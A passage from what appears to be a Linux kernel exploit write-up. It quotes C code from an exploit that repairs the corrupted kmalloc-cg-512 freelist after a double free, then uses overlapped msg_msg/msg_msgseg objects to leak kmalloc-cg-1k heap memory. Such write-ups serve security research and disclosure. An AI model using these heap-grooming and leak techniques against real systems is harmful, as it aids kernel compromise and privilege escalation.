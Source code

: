 - [exploit/extra-refined/exploit.c#L888](../exploit/extra-refined/exploit.c#L888)
```c
// we have leak now
// populate the lk-sized cg cache to prevent crash
for (size_t i = 20; i < MSG_MSG_SPRAY_CNT; i++)
{
	memset(msg_buf, 0, sizeof(msg_buf));
	ret = msgrcv(msgqids2[i], msg, sizeof(msg_buf), 2, IPC_NOWAIT);
	if (ret < 0)
		err(1, "msgrcv");
}
```
However, by the reclaimed double-freed chunks, the percpu freelist of `kmalloc-cg-512` cache is now corrupted, and the kernel may crash if the exploit or other tasks tries to allocate on `kmalloc-cg-512` caches. To prevent this, we freed the 512-sized `struct msg_msg` objects which are allocated in the [Heap grooming step](#63-heap-grooming). This creates enough chunks on the corresponding slab cache and prevents kernel crashes during and after the exploit, even when the allocation occurs on that cache. For more details, please refer [Abusing `CONFIG_SLAB_FREELIST_HARDENED` mitigation to aid exploitation section of novel-techniques.md](./novel-techniques.md#abusing-config_slab_freelist_hardened-mitigation-to-aid-exploitation).

- [exploit/extra-refined/exploit.c#L898](../exploit/extra-refined/exploit.c#L898)
```c
int upper_msg_msg_holder = -1;
int lower_msg_msg_holder = -1;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
printf("[*] overlapped by msg_msgseg again : size %d\n", ret);
payload = (uintptr_t *)msg->mtext;
// for(size_t i = 0; i < ret / 8; i ++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }
if (payload[510] && payload[510] < MSG_MSG_SPRAY_CNT)
{
	upper_msg_msg_holder = msgqids2[payload[510]];
	printf("[*] 1k-sized upper msg_msg is holded by %dth msgq (msgq %d)\n", payload[510], upper_msg_msg_holder);
	// remove from spray list
	msgqids2[payload[510]] = -1;
}
if (payload[518] && payload[518] < MSG_MSG_SPRAY_CNT)
{
	lower_msg_msg_holder = msgqids2[payload[518]];
	printf("[*] 1k-sized lower msg_msg is holded by %dth msgq (msgq %d)\n", payload[518], lower_msg_msg_holder);
	// remove from spray list
	msgqids2[payload[518]] = -1;
}

if (upper_msg_msg_holder == -1 || lower_msg_msg_holder == -1)
{
	err(1, "fail to leak unaligned msg_msg...");
}
```
We can now leak contents of `kmalloc-cg-1k` slab from unaligned `struct msg_msgseg` pointed by the `next` field of `struct msg_msg`. The unaligned `struct msg_msgeg` would lie between two `struct msg_msg` objects. We need to identify which `struct msg_msg` objects are overlapped with the unaligned `struct msg_msgseg` object to control memory layout.
